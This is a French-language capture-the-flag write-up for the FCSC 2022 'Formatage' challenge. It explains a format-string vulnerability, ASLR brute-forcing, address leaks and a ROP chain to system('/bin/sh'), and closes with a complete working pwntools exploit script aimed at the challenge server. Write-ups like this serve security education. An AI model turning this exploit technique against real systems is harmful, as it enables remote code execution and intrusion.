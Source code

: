 #### Formatage

était un challenge de vulnérabilité de type format string du FCSC 2022

challenge on ne peut plus classique, comme il en revient régulièrement dans les CTFs.

la résolution est la même que pour tous les challenges de ce type..

j'ai plusieurs write-ups dans mon github qui expliquent comment résoudre ce type de challenge,

comme celui ci par exemple:

https://github.com/nobodyisnobody/write-ups/tree/main/DigitalOverdose.2021/pwn/uncurved

qui a une sandbox en plus, mais dans le principe le début est le même.

ou celui ci aussi:

https://github.com/nobodyisnobody/write-ups/tree/main/Imaginary.CTF.2021/pwn/inkaphobia

et d'autres encore..

le reverse est rapide:

![reverse](./pics/reverse.png)

Un buffer est alloué sur la heap avec `getline()`, il est directement affiché avec `printf()` (c'est là la vulnérabilité format string)

En suite le buffer est libéré par `free()`, et le programme sort directement via `exit()`

Pour l'exploitation, les étapes sont les suivantes:

`main()` sortant directement via `exit()`, on essaiera de réécrire sur l'addresse de retour de `printf()` sur la stack.

pour avoir un ret2main en premier

pour cela on utilise une combinaison de '`*c`'  et de '`%hn`'  pour réécrire sur une addresse stack de `env[]`, les variables d'environnements, afin qu'elle pointe sur la return address de printf() , cela nécessire un peu de bruteforce, car l'ASLR est plus ou moins auspicieuse.. (si la valeur 32bits de *c est plus grande que 0x80000000, l'opération échouera).. tout en faisant cela on leak une addresse de libc et de la stack, que l'on récupère à la volée. et on s'en sert pour attendre une ASLR favorable de la stack.

Car la format string n'étant pas blind, nous devons lire tout les caractères retournés, ce qui prendrai trop de temps si les valeurs 32bit basse de l'addresse stack sont trop grandes...

quand toutes ces planètes seront alignées convenablement, notre ret2main fonctionnera et à partir de là,

nous connaitront les addresses de mapping de la libc, stack et prog base...

à partir de ce moment nous écrivont un ROP sur la stack,

et remplaçont l'addresse de retour de printf() par une instruction nous permettant de pivoter sur notre ROP

et nous avons notre shell

![gotshell](./pics/gotshell.gif)

les serveurs étant assez rapides, le bruteforce n'est pas très long..quelques minutes en général..

L'exploit, pour ceux qui voudraient étudier le code de plus près ;)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./formatage_patched')
libc = ELF('./libc.so.6')

host, port = "challenges.france-cybersecurity-challenge.fr", "2057"

count = 0
while(count<1024):
  print('count = '+str(count))
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)
  payload = '%p.'+'%c'*13+'.%p.'+'%c'*3+'.%p.'+'%c'*12+'%65109c'+'%*c'+'%hn'+'%8c'+'%49$hhn'+'TOTO' #+'%65172c'+'%hn.%p.'+'%c'*19+'%hhn'+'TOTO'
  p.sendline(payload)
  libc.address = int(p.recvuntil('.',drop=True),16) - 0x218b03
  print('libc.base = '+hex(libc.address))

  p.recvuntil('.',drop=True)
  stack = int(p.recvuntil('.',drop=True),16)
  print('stack = '+hex(stack))
  if ((stack & 0xff000000) > 0x05000000):
    p.close()
    count += 1
    continue

  p.recvuntil('.',drop=True)
  progbase = int(p.recvuntil('.',drop=True),16) - 0x11c9
  print('progbase = '+hex(progbase))

  try:
    p.recvuntil('TOTO', drop=True)
    low1 = (progbase+0x11d5)&0xffff
    p.sendline('%'+str(low1)+'c'+'%49$hn.TITI')
    p.recvuntil('TITI', drop=True)
    if args.GDB:
      q=gdb.attach(p, gdbscript = '''
      source ~/gdb.plugins/gef/gef.py
      gef config context.show_opcodes_size 9
      gef config context.libc_args True
      gef config context.libc_args_path  ~/gdb.plugins/gef-extras/glibc-function-args/
      pie breakpoint 0x1256
      ''')
    break
  except:
    p.close()
    count += 1
    continue

binsh_str = libc.address + 0x1dbcba
pop_rdi = libc.address + 0x000000000002e6c5 # pop rdi ; ret
ret = progbase + 0x101a
shift = libc.address + 0x00000000000a4a04 # add rsp,+0xe8

def writes(addr, value):
  global progbase
  low1 = (progbase+0x11d5)&0xffff
  for i in range(8):
    print('round'+str(i))
    low2 = (addr+i)&0xffff
    if (low1<low2):
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str(low2-low1)+'c%18$hn'+'TITI'
    else:
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str((65536-low1)+low2)+'c%18$hn'+'TITI'
    p.sendline(payload)
    p.recvuntil('TITI',drop=True)
    p.sendline('%'+str(low1)+'c'+'%49$hn'+'%'+str( (0x100-(low1&0xff))+ord(value[i]) )+'c%47$hhn'+'TITI')
    p.recvuntil('TITI',drop=True)
    
writes((stack-0x58),  p64(pop_rdi))
writes((stack-0x50),  p64(binsh_str))
writes((stack-0x48),  p64(libc.sym['system']))
writes((stack-0x148),  p64(shift))

low1 = (ret)&0xffff
payload = '%'+str(low1)+'c'+'%49$hnTITI'
p.sendline(payload)
p.recvuntil('TITI',drop=True)

p.interactive()
```


